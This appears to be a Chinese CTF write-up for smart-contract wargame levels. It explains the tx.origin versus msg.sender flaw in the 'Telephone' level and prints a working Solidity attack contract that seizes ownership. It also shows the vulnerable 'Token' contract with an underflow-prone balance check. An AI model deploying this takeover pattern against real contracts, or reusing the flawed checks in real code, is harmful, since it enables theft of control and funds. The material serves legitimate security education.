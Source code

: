 ```javascript
```

Claim ownership of the contract below to complete this level.即可通关。
看了一下，主要是考察`tx.origin和msg.sender的区别`。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413215040535.png)
ctfwiki上解释的就比较清楚：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413215129811.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)
因此我们只需要部署一个合约，在合约中调用这个题目中的changeOwner，这样题目中的`tx.origin`是我们自己，而`msg.sender`是我们部署的那个合约。

```javascript
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Attack {
    Telephone constant private target = Telephone(0x6F28D4210D178F6B37bFBe8D1dD8b08402EaC12a);
    function hack() public {
        target.changeOwner(msg.sender);
    }
}
```

# Token

```javascript
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
